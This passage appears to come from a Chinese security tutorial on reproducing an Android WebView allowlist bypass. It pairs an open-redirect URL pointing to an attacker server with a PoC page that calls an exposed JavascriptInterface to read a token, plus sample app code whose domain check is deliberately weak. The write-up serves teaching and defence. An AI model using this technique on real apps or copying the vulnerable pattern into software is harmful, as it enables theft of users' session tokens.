 然后我们就可以构造URL来绕过域名白名单：  
https://www.site1.com/redirect.php?url=http://223.****.32:8080/poc.htm  
  
  
漏洞复现：  
首先我们编写攻击的htm：  
```
<script>
    alert(window.myObj.getToken());
</script>
```  
  
  
然后我们使用文件服务器来进行模拟：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8FlmaXSHgoC0UknOib3jVUiakmQQuQz0G1bITkJN2jtwLAdCycQqzQlBrruxcuWIYC94UialxrK9ow5Q/640?wx_fmt=png "")  
  
我们接着编写测试样本代码：  
```
public class URLWebView extends AppCompatActivity {
    class JsObject {
        @JavascriptInterface
        public String getToken() {
            Log.e("rebeyond","i am in getToken");
            return "{\"token\":\"1234567890abcdefg\"}";
        }
    }
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_url_web_view);

        WebView webView = (WebView) findViewById(R.id.Wind_webview4);
        webView.getSettings().setJavaScriptEnabled(true);
        webView.setWebViewClient(new WebViewClient());
        webView.setWebChromeClient(new WebChromeClient());
        webView.addJavascriptInterface(new JsObject(),"myObj");
        String inputUrl="https://www.site1.com/redirect.php?url=http://223.****:8080/poc.htm"; //ip地址自己写自己的
        try {
            if (checkDomain(inputUrl))
            {
                Log.e("rebeyond","i am a white domain");
                //webView.loadUrl(inputUrl);
            }
        } catch (URISyntaxException e) {
            e.printStackTrace();
        }
    }
    private static boolean checkDomain(String inputUrl) throws  URISyntaxException {
        if (!inputUrl.startsWith("http://")&&!inputUrl.startsWith("https://"))
        {
            return false;
        }
        String[] whiteList=new String[]{"site1.com","site2.com"};
        java.net.URI url=new java.net.URI(inputUrl);
        String inputDomain=url.getHost(); //提取host
        for (String whiteDomain:whiteList)
        {
            if (inputDomain.endsWith("."+whiteDomain)) //www.site1.com      app.site2.com
                return true;
        }
        return  false;
    }

}
```